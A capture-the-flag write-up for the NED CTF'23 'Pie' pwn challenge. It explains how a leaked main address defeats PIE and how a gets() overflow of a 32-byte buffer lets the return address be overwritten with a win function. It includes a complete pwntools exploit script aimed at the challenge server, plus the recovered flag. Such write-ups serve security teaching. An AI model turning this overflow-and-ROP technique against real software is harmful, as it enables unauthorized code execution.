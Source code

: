 ```yaml
---
title: NED CTF'23 - Pwn - Pie
date: '2023-07-03'
tags: ['ctf', 'pwn', 'nedctf', 'writeup', 'buffer-overflow', 'x64', 'pie', 'leaks', 'offset']
draft: false
summary: Given the leaked address of main function, calculating offset and then overwriting the return address to the win function.
---
```


## Challenge Description

Leaks are everywhere.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9004
```

![chal-info](/static/writeups/nedctf/pwn/pie0.png)

## Solution

Downloading the `pie.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/pie1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/pie2.png)

Let's run the `pie` binary to check what it does

![run](/static/writeups/nedctf/pwn/pie3.png)

Okay, let's disassemble and check the functions inside ghidra

![ghidra](/static/writeups/nedctf/pwn/pie4.png)

The functions that stand out are `vuln` and the `win` function. By now, we know that `win` often simply reads the `flag.txt` and all we have to do is invoke it. Let's check the `vuln` function:

```c:vuln

void vuln(void) {
  char local_28 [32];
  
  printf("Leaked address: %p\n",main);
  printf("For the last time could you tell me your name please? ");
  gets(local_28);
  printf("\nThank you %s",local_28);
  return;
}
```

Well, the `gets` is here, once again. The buffer is `32` bytes long. The `main` function is also leaked. So, now we know that we need to do the following:

1. Calculate the offset of the `win` function from the `main` function.
2. Overflow the buffer and overwrite the return address to the `win` function.
3. Get the flag.

### 1. Calculating the offset

To do that, we can utilize pwntools, and use the `ELF` module to calculate the offset. By firstly getting the address of main, we change the local ELF's main to re-align to the leaked address

Now, the address of `win` function will become `elf.sym.win`. We also need to add a `ret` gadget, which will be used to return to the `win` function. To do that, we can use the `ROP` module of pwntools. The code for this will be as follows:

The code for this will be as follows:

```python:offset
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = './pie'
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1] == 'remote':
	io = remote('159.223.192.150', 9004)
else:
	io = process(_bin)

data = io.read().decode('latin-1')
main_func = re.findall('Leaked address: (.*?)\n', data)[0]
info(f"Address for main function: {main_func}")

info("Patching the ELF address:")
elf.address = int(main_func, 16) - elf.sym.main

info(f"win function found at: {elf.sym.win}")
win_func = p64(elf.sym.win)

rop = ROP(elf)
ret = p64(rop.ret.address)
```

### Overflowing the buffer and getting the flag

Now, since we have the first part done, next thing we need to do is craft the payload. We have the address of `win` function, all we need to do is overwrite the instruction pointer to the address and then we're golden. To do that, we need to calculate the offset of the buffer. Once again, basic math; 32 + 8, i.e. 40. Hence, the offset is 40.

```python:payload
payload = b"A" * 40
payload += ret
payload += win_func
io.sendline(payload)
```

This is the gist of it. The final exploit is:

```python:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = './pie'
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1] == 'remote':
	io = remote('159.223.192.150', 9004)
else:
	io = process(_bin)

data = io.read().decode('latin-1')
main_func = re.findall('Leaked address: (.*?)\n', data)[0]
info(f"Address for main function: {main_func}")

info("Patching the ELF address:")
elf.address = int(main_func, 16) - elf.sym.main


info(f"win function found at: {elf.sym.win}")
win_func = p64(elf.sym.win)

rop = ROP(elf)
ret = p64(rop.ret.address)

offset = 40
payload = b'A' * offset + ret + win_func # the payload wasn't working with `flat`.

io.sendline(payload)
buf = io.recv()
try:
	flag = buf.split(b'\n')[-2]
	info(f"Flag: {flag.decode()}")
except:
	info("No flag. An error occurred.")
```

![flag](/static/writeups/nedctf/pwn/pie5.png)

```md
Flag: NCC{pie_byp4ssed_007}
```
